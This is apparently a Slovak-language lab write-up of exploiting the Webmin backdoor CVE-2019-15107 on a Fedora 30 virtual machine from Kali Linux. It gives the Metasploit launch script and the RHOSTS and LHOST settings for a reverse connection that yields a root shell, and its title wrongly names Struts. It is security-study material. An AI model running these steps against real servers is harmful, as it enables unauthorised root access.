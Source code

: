 # Otestovanie zraniteľnosti Struts na distribúciu Fedora 30

Webový ovládací panel Webmin slúži na správu systému Unix. Eliminuje potrebu ručne upravovať konfiguračné súbory
systému Unix, ako napríklad /etc/passwd, a umožňuje spravovanie systému z konzoly alebo vzdialene. Preto sa 
používa vo väčšine organizácií, kde sa používajú unixové servery. Útok CVE-2019-15107 fungoval ako *backdoor*, 
čiže bol zámerne umiestnený v roku 2018 a nájdený počas bezpečnostnej konferencie DEF CON 2019, keď výskumníci 
narazili na škodlivý kód.

Každý, kto vedel o existencii zraniteľnosti, mohol využiť *backdoor*, čím mal možnosť vykonávať príkazy 
s privilégiami *root*. Podľa Jamieho Camerona, autora webového ovládacieho panela Webmin, bol 
*backdoor* vložený do verzie 1.890. Následne boli nájdené ďalšie dve verzie s takmer identickým 
kódom, konkrétne verzie 1.900 a 1.920. Do skriptu `password\_change.cgi` bola pridaná zraniteľnosť. 

## Konfigurácia distribúcie Fedora 30

Pre vytvorenie zraniteľného systému sme stiahli verziu
[ovládacieho panelu Webmin 1.890](https://sourceforge.net/projects/webadmin/files/webmin/1.890/) a nainštalovali ju. 

## Konfigurácia Kali Linux 

Pre zaútočenie sme si vložili súbor `set-msfconsole.rc` a `HACK.sh` na plochu distribúcie. Útok spustíme otvorením konzoly a spustením príkazu: 

```shell
./Desktop/HACK.sh
```

`HACK.sh` nám otvorí v konzole nástroj msfconsole pomocou súboru `set-msfconsole.rc`. V ňom sa nastaví IP zraniteľnej mašiny pomocou 
`set RHOSTS 192.168.50.42`. Ostáva nám nastaviť IP útočníka `set LHOST 192.168.50.43` a spustiť útok. 

Keďže sme využili backdoor a ovládací panel Webmin bežal pod privilégiami root, dostali sme sa do systému s privilégiami root.
